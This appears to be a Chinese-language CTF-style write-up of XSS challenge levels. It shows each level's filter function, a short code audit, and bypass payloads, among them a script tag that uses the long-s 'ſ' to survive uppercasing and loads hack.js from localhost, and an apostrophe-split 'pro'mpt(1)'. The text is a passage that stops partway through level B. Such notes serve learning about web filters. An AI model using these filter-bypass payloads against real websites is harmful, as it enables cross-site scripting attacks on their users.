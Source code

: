     因为是要转换成大写，所以直接输入prompt会被转换，不会执行
    
    可以使用链接，但是文件名要大写
    
    payload:

```html
<ſcript src="http://localhost/hack.js"></script>
<ſcript src="http://127.0.0.1/hack.js"></script>
```
​				HACK.JS
```javascript
prompt(1)
```

## A

```js
function escape(input) {
    input = encodeURIComponent(input).replace(/prompt/g, 'alert');
    input = input.replace(/'/g, '');
    return '<script>' + input + '</script> ';
}
```

* 代码审计：

    将`prompt`换成`alert`，将`'`置为空

* 先寻找`prompt`，再寻找`'`，那就可以在`prompt`中间加一个`'`

    payload:

```
pro'mpt(1)
```

## B

```javascript
function escape(input) {
    var memberName = input.replace(/[[|\s+*/\\<>&^:;=~!%-]/g, '');
    var dataString = '{"action":"login","message":"Welcome back, ' + memberName + '."}';
    return '                                \n\
<script>                                    \n\
    var data = ' + dataString + ';          \n\
    if (data.action === "login")            \n\
        document.write(data.message)        \n\
</script> ';
}    
```

* 代码审计

    将`[ | \ s + * / \ < > & ^ : ; = ~ ! % -`置为空

* 有点神奇
